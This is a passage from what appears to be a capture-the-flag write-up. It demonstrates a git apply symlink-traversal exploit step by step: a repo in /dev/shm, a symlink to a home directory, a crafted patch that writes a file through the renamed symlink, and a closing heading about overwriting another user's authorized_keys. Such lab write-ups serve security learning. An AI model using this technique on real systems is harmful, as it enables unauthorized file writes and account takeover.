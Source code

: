 
Now I’ll create a directory in `/dev/shm` and make it a Git repo:

    
    
    cbrown@snoopy:~$ mkdir /dev/shm/poc
    cbrown@snoopy:~$ cd /dev/shm/poc
    cbrown@snoopy:/dev/shm/poc$ git init
    Initialized empty Git repository in /dev/shm/poc/.git/
    

To test, I’m going to try to create a file in a directory I own (without using
`sudo`) to make troubleshooting easier. I’ll create `/home/cbrown/0xdf`. First
I need to create a symlink that points to target directory and add it to the
repo:

    
    
    cbrown@snoopy:/dev/shm/poc$ ln -s /home/cbrown/ symlink
    cbrown@snoopy:/dev/shm/poc$ git add symlink
    cbrown@snoopy:/dev/shm/poc$ git commit -m "add symlink"
    [main (root-commit) 6eba49c] add symlink
     1 file changed, 1 insertion(+)
     create mode 120000 symlink
    

I’ll create the `patch` file, using the data from the test, modifying it
slightly:

    
    
    diff --git a/symlink b/renamed-symlink
    similarity index 100%
    rename from symlink
    rename to renamed-symlink
    --
    diff --git /dev/null b/renamed-symlink/0xdf
    new file mode 100644
    index 0000000..039727e
    --- /dev/null
    +++ b/renamed-symlink/0xdf
    @@ -0,0 +1,1 @@
    +busted
    

The only change is from `create-me` to `0xdf` in two places. `git apply patch`
will run it, and the new file exists:

    
    
    cbrown@snoopy:/dev/shm/poc$ git apply patch
    cbrown@snoopy:/dev/shm/poc$ cat ~/0xdf 
    busted
    

#### Overwrite authorized_keys

With `sudo`, I can do this exploit as sbrown. The first thing I’ll try is
overwriting their `authorized_keys` file. I’ll start a brand new repo, this
time adding a symlink pointing to sbrown’s `.ssh` folder:
